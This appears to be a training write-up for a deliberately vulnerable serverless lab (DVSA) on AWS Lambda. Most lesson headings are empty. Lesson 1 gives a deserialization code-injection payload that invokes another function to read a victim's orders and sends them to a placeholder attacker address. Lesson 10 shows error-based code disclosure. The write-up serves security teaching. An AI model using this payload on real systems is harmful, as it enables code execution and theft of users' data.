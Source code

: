 # LESSONS

## LESSON #1: Event Injection

### Code Injection via API Gateway
The application sends all request to an API GW (*https://{string}.execute-api.{region}.amazonaws.com/{stage}/order*). 
All reqursts end up being handled by Lambda function, which invokes another lambda based on the incoming request.

**This function is vulnerable to Code Injection**. The function uses an insecure de-/serialization for the data in the request.

Using the following payload, it is possible to inject code that will be executed by the functioin.
```$$ND_FUNC$$_function (){}()```

For example, to get the orders of another user, we can send the payload:
```
{"action": "_$$ND_FUNC$$_function(){var aws=require(\"aws-sdk\");var lambda=new aws.Lambda();var p = {FunctionName: \"DVSA-ORDER-ORDERS\", InvocationType: \"RequestResponse\", Payload: JSON.stringify({\"user\": \"12312312-1233-1233-1233-123123123123\"})};lambda.invoke(p,function(e,d){ var h=require(\"http\");h.get(\"<ATTACKER_REMOTE_ADDRESS>\"+JSON.stringify(d));}); }()", "cart-id":""}
```
Where the *12312312-1233-1233-1233-123123123123* is the user-id of the user we want to steal the data from, and *<ATTACKER_REMOTE_ADDRESS>* is any address that we can send the data to. E.g. [ngrok](https://ngrok.com/).

The result will be a url-encoded json with the order information we stole:
![alt ngrok](https://i.imgur.com/RjT10B4.png)

After decode it, we get a JSON with the user orders. For example:
```
{"StatusCode":200,"ExecutedVersion":"$LATEST","Payload":"{\"status\": \"ok\", \"orders\": [{\"date\": 0, \"status\": \"100\", \"total\": 0, \"order-id\": \"37e149f9-7fd5-4eff-8214-39ed05305d29\"}, {\"date\": 0, \"status\": \"100\", \"total\": 0, \"order-id\": \"01c9f783-1ddd-42b4-b6e4-d8dfe18b7807\"}, {\"date\": 0, \"status\": \"100\", \"total\": 0, \"order-id\": \"5679749f-7a44-4c15-b8db-360a988e82e7\"}, {\"date\": 0, \"status\": \"100\", \"total\": 0, \"order-id\": \"fff385ef-0000-fafa-0000-87ee1047dfff\"}]}"}
```


The above exmaple is the least of problems you can do with such an attack. Notice that there also admin functions :)

### Command Injection via S3 bucket




## LESSON #2

## LESSON #3

## LESSON #4

## LESSON #5

## LESSON #6

## LESSON #7

## LESSON #8

## LESSON #9

## LESSON #10: Unhandles Exceptions
The Lmabda that handles the request is a "dumb" function when talking about response message. The function returns back any message that was received from the invoked function. In some cases, sending partial or incorrect data could reveal code or sensitive information if an error is sent back to to the function.

for example, using the partial payload:
```{"action": "get"}```

We will receive an error that reveils vode from the invoked function:
```
{"StatusCode":200,"FunctionError":"Unhandled","ExecutedVersion":"$LATEST","Payload":"{\"stackTrace\": [[\"/var/task/lambda_function.py\", 29, \"lambda_handler\", \"orderId = event[\\\"orderId\\\"]\"]], \"errorType\": \"KeyError\", \"errorMessage\": \"'orderId'\"}"}
```
